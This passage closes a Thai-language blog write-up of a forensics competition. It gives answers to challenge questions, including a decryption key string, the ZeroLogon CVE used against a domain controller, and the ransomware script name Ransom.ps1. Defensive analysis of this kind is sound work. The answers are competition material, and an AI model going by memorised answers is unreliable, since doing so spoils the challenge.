กลับมาที่ HTTP request อีกครั้ง รอบนี้เรารู้ IP ของ attacker เราก็แค่ต้องหา request ที่ขอ script หรือไฟล์ที่จะรันบน Windows ได้ ซึ่งผมก็เจอ powershell script ที่ถูกส่งมาพร้อมกับ url ที่มี key และ iv แฝงเข้ามาใน path


ซึ่งเมื่ออ่าน script นี้ดูก็จะพบว่าข้อสันนิษฐานของเราถูกต้องครับ

```
xThizmhZ6SEdI2rvVtjPGPQtmGf/nsjllzsegJOHySY=
```

>Through what vulnerability did the attacker gain access to the domain controller 10.14.3.10 


ข้อนี้เราต้อง filter IP ของ domain controller แล้วก็มาดูว่ามี protocol ที่เกี่ยวกับ domain controller ไหนที่ดูแปลก ๆ บ้าง ซึ่งก็ไปเจอ Net Logon ครับ เลยก็ "อะ ฮ่า!" ทันที เพราะช่องโหว่ที่เกี่ยวกับ Net Logon ที่น่าจะรู้จักกันดีก็คือ ZeroLogon ครับ

โดยวิธีการ detect ก็อ่านได้จากเว็บนี้เลย https://arista.my.site.com/AristaCommunity/s/article/Network-Threat-Hunting-for-Zerologon-Exploits-CVE-2020-1472
```
CVE-2020-1472
```

>Write the name of the encryption script 
```
Ransom.ps1
```


***
## Conclusion
ก็จบไปแล้วครับ สำหรับ Cyber Range Thailand 2024 รอบ Qualifier ซึ่งผมมองว่าเป็นงานที่สนุกสำหรับสาย Blue team เลย ถึงแม้ผมจะแอบไปถามผู้ประชาสัมพันธ์งานมาแล้ว เขาบอกว่าตอนแรกกะจะให้เป็น CTF Jeopardy แต่ด้วยเหตุผลบางประการจึงทำให้รอบนี้เป็นการแข่ง Digital Forensics แทน


Scoreboard ในตอนจบจะเห็นว่ามี 4 คนได้คะแนนเต็ม แต่รายชื่อของผมตกไปอยู่ลำดับสามของที่ 1 เพราะว่ามันเรียงตามชื่อ แต่ไม่ได้เรียงตาม time solved ครับ

ในทั้งนี้ก็ขอขอบคุณผู้จัดงาน ผู้ที่เกี่ยวข้องทุกท่านแล้วก็ 2600 thailand community ด้วยครับที่ช่วยสร้างสีสันและความบรรเทิงให้กับผมและน้อง ๆ นักศึกษาร่วม 100 ที่ได้ลงแข่งในครั้งนี้

โอกาศหน้าไว้พบกันใหม่ PEACE~
* * *